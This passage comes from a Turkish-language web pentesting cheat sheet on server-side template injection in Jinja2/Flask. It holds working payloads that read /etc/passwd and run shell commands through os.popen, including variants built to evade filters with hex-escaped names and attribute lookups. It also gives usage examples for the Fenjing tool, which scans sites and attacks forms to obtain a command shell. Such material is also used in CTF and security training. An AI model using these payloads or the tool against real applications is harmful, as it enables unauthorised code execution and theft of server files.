 ```bash
- from_mapping
- get_namespace
- __repr__

# You can iterate through children objects to find more
```
Bazı fonksiyonlar bulduktan sonra, built-in'leri şu şekilde geri alabilirsiniz:
```python
# Read file
{{ request.__class__._load_form_data.__globals__.__builtins__.open("/etc/passwd").read() }}

# RCE
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("ls").read() }}
{{ config.__class__.from_envvar["__globals__"]["__builtins__"]["__import__"]("os").popen("ls").read() }}
{{ (config|attr("__class__")).from_envvar["__globals__"]["__builtins__"]["__import__"]("os").popen("ls").read() }}

{% raw %}
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("ls")["read"]() %} {{ a }} {% endwith %}
{% endraw %}


## Extra
## The global from config have a access to a function called import_string
## with this function you don't need to access the builtins
{{ config.__class__.from_envvar.__globals__.import_string("os").popen("ls").read() }}

# All the bypasses seen in the previous sections are also valid
```
### Fuzzing WAF bypass

**Fenjing** [https://github.com/Marven11/Fenjing](https://github.com/Marven11/Fenjing) CTF'ler için özel olarak tasarlanmış bir araçtır, ancak gerçek senaryolarda geçersiz parametreleri brute force yapmak için de faydalı olabilir. Araç, filtreleri tespit etmek için kelimeleri ve sorguları yayar, bypass arar ve ayrıca etkileşimli bir konsol sağlar.
```
webui:
As the name suggests, web UI
Default port 11451

scan: scan the entire website
Extract all forms from the website based on the form element and attack them
After the scan is successful, a simulated terminal will be provided or the given command will be executed.
Example:python -m fenjing scan --url 'http://xxx/'

crack: Attack a specific form
You need to specify the form's url, action (GET or POST) and all fields (such as 'name')
After a successful attack, a simulated terminal will also be provided or a given command will be executed.
Example:python -m fenjing crack --url 'http://xxx/' --method GET --inputs name

crack-path: attack a specific path
Attack http://xxx.xxx/hello/<payload>the vulnerabilities that exist in a certain path (such as
The parameters are roughly the same as crack, but you only need to provide the corresponding path
Example:python -m fenjing crack-path --url 'http://xxx/hello/'

crack-request: Read a request file for attack
Read the request in the file, PAYLOADreplace it with the actual payload and submit it
The request will be urlencoded by default according to the HTTP format, which can be --urlencode-payload 0turned off.
```